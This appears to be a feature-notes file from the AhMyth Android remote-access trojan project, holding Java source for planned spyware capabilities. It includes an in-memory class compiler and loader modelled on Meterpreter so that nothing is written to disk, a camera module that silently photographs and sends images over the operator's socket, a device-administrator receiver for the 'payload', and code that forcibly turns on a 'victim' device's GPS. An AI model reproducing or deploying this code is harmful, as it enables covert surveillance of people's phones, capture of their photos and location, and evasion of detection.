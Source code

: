 # <div align="center">Experminetal Features</div>

A file used to store code for experimental client and server features that could be released with future releases if they prove successful.

<br>

<details>
  <summary>Experimental Client Features</summary>

#
## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.android.tools.r8.D8;
import com.android.tools.r8.D8Command;
import com.android.tools.r8.OutputMode;
import com.android.tools.r8.origin.Origin;
import com.android.tools.r8.dex.DexIndexedConsumer;
import javax.tools.*;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.net.URL;
import java.net.URLClassLoader;
import java.net.URI;
import java.nio.ByteBuffer;
import java.util.Collections;
import java.util.HashMap;
import java.util.Map;
import dalvik.system.InMemoryDexClassLoader;

public class InMemoryClassGen {
    public static void main(String[] args) throws Exception {
        String qualifiedName = "ahmyth.mine.king.ahmyth.CameraManager";
        String source = CamTemp.CAMERA_SOURCE_CODE;

        // 1. Compile Java source in-memory
        Map<String, byte[]> classBytes = compileInMemory(qualifiedName, source);

        // 2. Dex the compiled class bytes in-memory
        byte[] dexBytes = dexInMemory(classBytes);

        // 3. Load and execute
        loadAndRun(qualifiedName, dexBytes);
    }

    private static Map<String, byte[]> compileInMemory(String className, String sourceCode) throws IOException {
        JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
        DiagnosticCollector<JavaFileObject> diagnostics = new DiagnosticCollector<>();
        StandardJavaFileManager stdManager = compiler.getStandardFileManager(diagnostics, null, null);
        InMemoryJavaFileManager inMemManager = new InMemoryJavaFileManager(stdManager);

        JavaFileObject srcObj = new StringJavaFileObject(className, sourceCode);
        JavaCompiler.CompilationTask task = compiler.getTask(
                null, inMemManager, diagnostics, null, null, Collections.singletonList(srcObj)
        );
        if (!task.call()) {
            diagnostics.getDiagnostics().forEach(d -> System.err.println(d));
            throw new RuntimeException("Compilation failed");
        }
        return inMemManager.getAllClassBytes();
    }

    private static byte[] dexInMemory(Map<String, byte[]> classBytes) throws IOException {
        ByteArrayOutputStream dexOut = new ByteArrayOutputStream();
        D8Command command = D8Command.builder()
                .setOutput(dexOut::write, OutputMode.DexIndexed)
                .addClassProgramData(classBytes.get("ahmyth/mine/king/ahmyth/CameraManager"), Origin.unknown())
                .build();
        D8.run(command);
        return dexOut.toByteArray();
    }

    private static void loadAndRun(String className, byte[] dexBytes) throws Exception {
        ByteBuffer dexBuffer = ByteBuffer.wrap(dexBytes);
        ClassLoader parent = InMemoryClassGen.class.getClassLoader();
        InMemoryDexClassLoader loader = new InMemoryDexClassLoader(dexBuffer, parent);

        Class<?> cls = loader.loadClass(className);
        Object instance = cls.getDeclaredConstructor().newInstance();
        // Example: call a method named "initialize" if present
        try {
            cls.getMethod("initialize").invoke(instance);
        } catch (NoSuchMethodException ignored) {
            // no init method
        }
        System.out.println("Loaded and ran " + className);
    }

    // ---------- In-memory JavaFileObject ----------
    static class StringJavaFileObject extends SimpleJavaFileObject {
        private final String code;
        StringJavaFileObject(String className, String code) {
            super(URI.create("string:///" + className.replace('.', '/') + Kind.SOURCE.extension), Kind.SOURCE);
            this.code = code;
        }
        @Override public CharSequence getCharContent(boolean ignoreEncodingErrors) {
            return code;
        }
    }

    // ---------- In-memory File Manager ----------
    static class InMemoryJavaFileManager extends ForwardingJavaFileManager<StandardJavaFileManager> {
        private final Map<String, ByteArrayOutputStream> buffers = new HashMap<>();

        InMemoryJavaFileManager(StandardJavaFileManager sjfm) {
            super(sjfm);
        }

        @Override
        public JavaFileObject getJavaFileForOutput(Location location, String className, JavaFileObject.Kind kind, FileObject sibling) {
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            buffers.put(className, baos);
            return new SimpleJavaFileObject(
                    URI.create("mem://" + className.replace('.', '/') + kind.extension), kind) {
                @Override
                public OutputStream openOutputStream() {
                    return baos;
                }
            };
        }

        Map<String, byte[]> getAllClassBytes() {
            Map<String, byte[]> result = new HashMap<>();
            buffers.forEach((name, baos) -> result.put(name.replace('.', '/'), baos.toByteArray()));
            return result;
        }
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs all of the following operations listed below, dynamically in memory, meaning that nothing gets written to disk (aka the Android fileSystem)

## <div align="center"><ins>Compilation Phase</ins></div>
1. **In memory:** Wraps your `CamTemp.CAMERA_SOURCE_CODE` string in a custom `StringJavaFileObject` (extends `SimpleJavaFileObject`).
2. **In memory:** Uses a `ForwardingJavaFileManager<StandardJavaFileManager>` (here: `InMemoryJavaFileManager`) that intercepts compiler output and captures `.class` bytes into a `Map<String, byte[]>`.
3. **In memory:** Invokes the Java Compiler API (`ToolProvider.getSystemJavaCompiler()`) with the above file manager and source object to produce byte arrays for each compiled class—no disk I/O.

## <div align="center"><ins>DEX Generation Phase</ins></div>
4. **In memory:** Feeds the raw `.class` byte array for `ahmyth.mine.king.ahmyth.CameraManager` into the D8 programmatic API (`com.android.tools.r8.D8Command`).
5. **In memory:** Uses a `DexIndexedConsumer` backed by a `ByteArrayOutputStream` to collect the resulting `.dex` file bytes directly into RAM—still no disk writes.

## <div align="center"><ins>Loading & Execution Phase</ins></div>
6. **In memory:** Wraps the generated DEX byte array in a `ByteBuffer`.
7. **In memory:** Instantiates Android’s `InMemoryDexClassLoader` (API 26+) with that `ByteBuffer` and the app’s existing classloader as parent.
8. **In memory:** Loads `ahmyth.mine.king.ahmyth.CameraManager` by name and reflectively calls its no-arg constructor (and optionally any `initialize()` or other methods).
9. **In memory:** Reports success to `System.out` once the class is loaded and methods have run.

---

_All major steps—source → `.class` → `.dex` → loaded `Class<?>`—all happen in RAM. The only “filesystem” artifacts are wholly represented by in-memory file objects and byte buffers, so nothing ever touches persistent storage._

  <br>
</details>
<br>

## <div align="center">Device Admin Privileges</div>

This will hopefully give the AhMyth Payload Administrator Privileges for future features.

<details>
  <summary>Code</summary>
  <br>

- DeviceAdmin.java
```java
package ahmyth.mine.king.ahmyth;

import android.app.admin.DeviceAdminReceiver;

import android.app.admin.DevicePolicyManager;

import android.content.ComponentName;

import android.content.Context;

public class DeviceAdmin extends DeviceAdminReceiver {

    static DevicePolicyManager getDPM(Context context) {

        return (DevicePolicyManager)context.getSystemService(Context.DEVICE_POLICY_SERVICE);

    }

    public static ComponentName getComponentName(Context context) {

        return new ComponentName(context.getApplicationContext(), DeviceAdmin.class);

    }

}
```
</details>
<br>
  
## <div align="center">Automatically Enable Victim GPS</div>

This will hopefully allow automatic enabling of the victim device's GPS, Device Administration Privileges are required for this to work, hence the need for the **DeviceAdmin.java** code above.

<details>
  <summary>Code</summary>
  <br>
  
- LocationManager.java
```java
    private void activateGps(Context context) {

        SharedPreferences prefs = PreferenceManager.getDefaultSharedPreferences(context);

        if (!prefs.getBoolean("allow_location_modechange", false))

            return;

        if (!DeviceAdmin.getDPM(context).isAdminActive(DeviceAdmin.getComponentName(context)))

            return;

        if (!DeviceAdmin.getDPM(context).isDeviceOwnerApp(context.getApplicationContext().getPackageName()))

            return;

        DeviceAdmin.getDPM(context).setSecureSetting(

                DeviceAdmin.getComponentName(context),

                Settings.Secure.LOCATION_MODE,

                Integer.toString(Settings.Secure.LOCATION_MODE_HIGH_ACCURACY)

        );

        Log.d("Done", "Forcefully enabled GPS");

    }

    private void getLocation(Context context) throws SecurityException {

        activateGps(context);

        LocationManager locationManager = (LocationManager) context.getApplicationContext().getSystemService(Context.LOCATION_SERVICE);

        locationManager.requestSingleUpdate(LocationManager.GPS_PROVIDER, null);

    }
```
<br>

- Settings.java
```java
        perms.put("allow_location", new String[]{

                Manifest.permission.ACCESS_FINE_LOCATION,

        });

        perms.put("allow_location_modechange", new String[]{

                Manifest.permission.BIND_DEVICE_ADMIN,

        });
```

</details>
<br>

</details>

#

<details>
  <summary>Experminetal Server Features</summary>

### Nothing to show.

</details>
